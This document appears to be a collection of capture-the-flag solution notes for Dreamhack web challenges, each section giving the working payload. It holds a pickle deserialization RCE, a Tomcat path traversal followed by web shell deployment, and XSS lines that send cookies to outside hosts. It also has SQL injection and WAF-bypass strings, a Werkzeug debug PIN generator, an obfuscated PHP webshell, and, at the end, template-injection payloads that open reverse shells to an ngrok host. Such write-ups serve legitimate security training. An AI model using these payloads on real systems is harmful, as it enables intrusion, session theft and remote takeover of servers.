

# tasks

## file-csp-1

`/test` to test your payload
`/verify` to get the flag

### what we actually need to do ?  

We got 4 scripts running in our page.
To get how can we let each one of them pass we can just do in our *Chrome Devtools*

```http
script-src 'none'
```

and we follow the instruction we got a *URL src* and a 2 hashes.

**final payload**
we are enabling the script *c* and *d* with their hashes we can sue the src-url too

```http
script-src 'sha256-l1OSKODPRVBa1/91J7WfPisrJ6WCxCRnKFzXaOkpsY4=' 'sha256-pasqAKBDmFT4eHoN2ndd6lN370kFiGUFyTiUHWhU7k8='
```

## web-deserialize-python

A simple python pickle

*vulnerable code*

```python
session = request.form.get('session', '')
info = pickle.loads(base64.b64decode(session))
```

It takes the sesison which is a user input and web-deserialize it ! We can use that to read the `flag.txt` file

**what we should do ?**
use an interactive python console and get what you should passs as an input

```py
class EvilClass(object):
          def __reduce__(self):
              # reading the flag
              command = "os.popen('cat ./flag.txt').read()" 
              # eval to get execute the instruction on load
              return (eval, (command,))

      # that's the variable we are getting on the frontend
      info = {
          "userid": Vuln(),
      }
pickleData = base64.b64encode(pickle.dumps(info)).decode("utf8")
```

## mongoboard

- for mongodb < 3.7 we were able to predict the id of the entity.

used this github repo [library to guess the id](https://github.com/andresriancho/mongo-objectid-predict)

```py
import requests

from mongo_objectid_predict import predict

for objectid in predict('62f8ccf86dc2cfb8293c7ece'):
    response = requests.get('http://host3.dreamhack.games:9758/api/board/%s' % objectid)
    print(response.text)
```

## Tomcat Manager

```docker
COPY ROOT.war         /usr/local/tomcat/webapps/ROOT.war
/usr/local/tomcat/webapps/file/index.jsp #from here 
COPY tomcat-users.xml /usr/local/tomcat/conf/tomcat-users.xml #to here
```

```bash
curl http://host3.dreamhack.games:22959/image.jsp?file=../../../conf/tomcat-users.xml
```

**creds** `tomcat:P2assw0rd_4_t0mC2tM2nag3r31337`

deploy this file [cmd.war](https://github.com/s5uraj/web-shell/blob/master/cmd.war)
this will create a remote webshell on `/cmd/cmd.jsp`

We then execute the following

```bash
ls -l /
/flag
```

gave me a hard time finding a working webhshell got to learn how to create my owns

## easy xss 2

**payload**
`<scscriptript>document.locatioonn=`<https://enaqn03f8rd7k.x.pipedream.net?cookie>=`+document.cookie;</scscriptript>`

## [wargame.kr] strcmp

Using the array to pass the strcmp.

## web-blog-1

Find the

`%3C?php%20function%20m($l,$T=0){$K=date(%27Y-m-d%27);$_=strlen($l);$__=strlen($K);for($i=0;$i%3C$_;$i%2b%2b){for($j=0;$j%3C$__;%20$j%2b%2b){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return%20$l;}%20m(%27bmha[tqp[gkjpajpw%27)(m(%27%2brev%2bsss%2blpih%2bqthke`w%2bmiecaw*tlt%27),m(%278;tlt$lae`av,%26LPPT%2b5*5$040$Jkp$Bkqj`%26-?w}wpai,%20[CAP_%26g%26Y-?%27));%20?%3E HTTP/1.1" 200 1098
min/?page=/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732`

capture the out going request and change the `password=xx` to password[]=xx

## blind sql injection advanced

Solution in solverxx1.py

## baby-sqlite

- Admin was not inserted in the db upon creation.
- spaces, quotes, double quotes unavaiale
- `admin` cannot supplied no way concatinating the value :)
==> How to make union works then.
<https://sqlite.org/lang_select.html>

we can select-core ( view top diagram ) + UNION + select-core
select-core can be performed with values() syntax !
we convert 'admin' to ascii then concatinate it

**GETTING CHARACHTERS**

```py
string='admin'
array=[]
for s in string:
 x=f"char({ord(s)})"
 array.append(x)

print(array)
```

**Final Payload** `curl -X 'POST' -d payload URL`
`uid=xx&upw=xx&level=9/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))`

## error bassed sql injection

All the payloads for mysql gives a truncated result, the only one that worked was

`1'+Union+SELECT+1%2C+COUNT(*)%2C+CONCAT((SELECT+upw+from+user+where+uid%3D'admin')%2C0x3a%2CFLOOR(RAND(0)*2))+x+FROM+information_schema.tables+GROUP+BY+x%3B`

## tmitter

So after iterating through the webpage I found 3 requests to the server.

1. signin, I guess it's format `SELECT * from tmitter_user where id='$INSERT_HERE' and pw='$INSET_HERE';`
2. signup, I guess it's format `INSERT INTO tmitter_user (id,pw) values ('$INSERT_HERE','$INSERT_HERE');`
3. adding tmitter: `INSERT INTO ? ( ??? ) VALUES (?? )`

So trying the (1. , 2.) requests I arrived to nothing I guess they were paramtized so I went for the 3rd one.
Here I tried to guess the number of columns by simply.
testii') then testii','admin') then testii',11) till it worked. After that I realized that to post a tmitter. we need

- the one who posted it
- the id of him
- the content
- idk what is the last param it worked at 11 so kept it like that.

**final_payload**
`admin',11),(0,'admin',(select+ps+from+tmitter_user+where+id%3d'admin'),11)%23`

## Flask-Dev

Vulnerable Werkzeug server left in `Debug` mode.

we can access the `/console` to get to the interactive python shell offered by the server but to use it we should insert the `PIN`.
The `PIN` is generated from a bunch of informations we can gather.

There is a clear `LFI` vulnerability offered in the server code. But why is it for?  
Some research led me to the fact that we can calculate the PIN by getting some informations on the server machine.

here is the code to generate it with the endpoints to access to get it

```py
import hashlib
from itertools import chain

probably_public_bits = [
    'dreamhack',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

str1=b"c31eea55a29431535ff01de94bdcf5cf" #  ../../etc/machine-id
str2=b"libpod-20b1f2db2dd6780d58623f4a8ef1f0bc868cb908e7a6ef00fcee04203e55d983" # ../../proc/self/cgroup

print(str1+str2)


private_bits = [
    '187999308510721',# str(uuid.getnode()),  /sys/class/net/eth0/address
    str1+str2 # get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

## SQL injection WAF bypass

the code is vulnerable to sql injection however, the input is being passed to a simple keywork waf.

### To bypass

1. The whitespace => we use the tab `0x9`
2. the select,from etc => case sensitive filter so we change the case of a char
3. Admin => myssql is case insensitive so we change a case too

**Final payload**
<http://host3.dreamhack.games:18369/?uid=%27%09Union%09Select%09NULL,upw,NULL%09From%09user%09Where%09uid=%22Admin%22%23>

## md5 password

SQL Injection with MD5

    $sql = "SELECT * FROM admin WHERE pass = '".md5($password, true)."'";
    ffifdyop
        md5: 276f722736c95d99e921722cf9ed621c
        to string: 'or'6<trash>
**payload**
`129581926211651571912466741651878684928`

## SQL injection waf bypass advanced

Here we will use the string concatination + boolean evaluation to get the flag char by char.
View full script on [HERE](../waf_bypass_advanced.py)

## Fly to the moon

- Debofuscate code
- Send a `GET` request to `/token.php` for token value
- Send a `POST` request to `/high-scores.php` with `token=tokenValue&score=31337`

## Crawling

Reading through the code I summed up all the conditions to get to the `/admin/` endpoint.

### WHAT WE NEED

- A publicly avaialable, global address.
- A referer header that is not localhost or 127.0.0.1
- An ip that is not local.

### Final exploit

We make a quick server and make a tunnel to it with `ngrok`. The server will redirect to the `/admin` endpoint with `http://localhost:3333/admin`.
I used a simple flask server ( we can just use a html page too )

```py
@app.route('/')
def index():
    return redirect("http://localhost:3333/admin",code=302)
```

```bash
curl http://host3.dreamhack.games:20548/validation?url=NGROK_HTTP_URL
```

## LEVEL6 Guest book

### Summary

- DOM CLOBBERING + PATH Manipulation to ressource loading failure.

### We go this part from `utils.php`

```php
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  PreventXSS($content);
  return $content;
}
?>
```

That means we can create `<a>` at will, no point on trying to XSS because the input is being sanitized. So we should think about smthing else:

at the end of the html we can find a `<script>` tag where we will have a very interesting thing going. 

```js
<script src="config.js"></script>
<script>
  if(window.CONFIG && window.CONFIG.debug){
    location.href = window.CONFIG.main;
  }
</script> 
```

So all we need to do is use some DOM Clobbering to have our CONFIG variable ?

> Forgot about what DOM CLobbering is visit this [Awesome DOM Clobbering](https://medium.com/@shilpybanerjee/dom-clobbering-its-clobbering-time-f8dd5c8fbc4b)

But we have a problem and it's here

```js
// config.js

window.CONFIG = {
  version: "v0.1",
  main: "/",
  debug: false,
  debugMSG: ""
}

// prevent overwrite
Object.freeze(window.CONFIG);

```

It's pretty simple to bypass all we have to do is manipulate the path when we send it to the admin so when it tries to find the script relatively it wouldn't find it.

### Final Exploit

[1](' id='CONFIG' name='debug)
[2](javascript:location.href=`http://bzbxhgx.request.dreamhack.games?cookie=`%2bdocument.cookie' id='CONFIG' name='main)

*Crafting the link...*

`/Guestbook.php/content=%4B1%5D%28%27%20id%3D%27CONFIG%27%20name%3D%27debug%29%0A%5B2%5D%28javascript%3Alocation.href%3D%60http%3A%2F%2Fbzbxhgx.request.dreamhack.games%3Fcookie%3D%60%252bdocument.cookie%27%20id%3D%27CONFIG%27%20name%3D%27main%29%0A`

## API Portal
This task exposes a vulnerability in the php `get_file_contents` function and specificially in the context paramater.

```php
<?php
$action = $_GET["action"] ?? "main";
switch($action) {
    ...
    // Safe key-value DB API
    case "db/create":
        $param = array($_GET["key"]);
        break;
    case "db/list":
        break;
    case "db/delete":
        $param = array($_GET["key"]);
        break;
    case "db/save":
        $param = array($_GET["dbkey"], $_GET["key"], $_GET["value"]);
        break;
    case "db/read":
        $param = array($_GET["dbkey"], $_GET["key"]);
        break;

    // Network-related API
    case "net/proxy/get":
        $param = array($_GET["url"], $_SERVER["REMOTE_ADDR"], urldecode($_SERVER["REQUEST_URI"]));
        break;
    case "net/proxy/post":
        $param = array($_GET["url"], $_SERVER["REMOTE_ADDR"], urldecode($_SERVER["REQUEST_URI"])); //TODO: implement POST data
        break;
    // disabled
    case "net/ping":
        $param = array($_GET["target"]);
        break;
    // disabled
    case "net/nslookup":
        $param = array($_GET["domain"], $_GET["record"]);
        break;
    ..

    // Flag
    case "flag/flag":
    ..
    default:
    ..
}

include "action/$action.php";
```

Looking through the code I understood it's one endpoint that treats redirects to different features depending on the action param. Looking through the code of each function. What got my mind at first is the following:
1. `/db/create` -> `/db/save` == Create a file that the flag will be printed to .
2. `/net/proxy/get` -> `/net/proxy/post` == trigger post request by the get request to bypass the endpoint filter in the flag/flag.
3. `/net/proxy/post` -> `/flag/flag`

But I found out by trying it locally that I can trigger the `/flag/flag` by hitting the `/net/proxy/post` endpoint directly.


Final payload in file [api portal exploit script](./api_portal.py)

## CSRF Advanced 

CSRF Vulnerabilty due to insecure CSRF token generation
payload to send 
```html

```


## filestorage

Proto pollution due to the vulnerable function setValue which is recursive that it allows to assign entire objects. We will exploit the `/readfile` endpoint specifically the `read['filename']` value by clearing so it uses the prototype value.

`URL/test?func=reset`
`URL/test?func=rename&filename=__proto__.filename&rename=../../../flag`

## Not Feeling Well ec
LFI injection to get the environment variables. The flag is set as an env variable and the user has a vulnerable code to set the profile image.
  
  


## I can Read !
```py
{{''.__class__.__mro__[1].__subclasses__()[399]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 6.tcp.eu.ngrok. 17220 >/tmp/f',shell=True,stdout=-1).communicate()}}
```


```Py

# {{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('import os,pty,socket;s=socket.socket();s.connect(("6.tcp.eu.ngrok.",17220));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' )}}

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/6.tcp.eu.ngrok/17220 0>&1"',shell=True) }}
{{ config['RUNCMD']("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"6.tcp.eu.ngrok.\",17220));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'",shell=True) }}


```

{{ config.from_pyfile('/var/www/bad_config.py')}}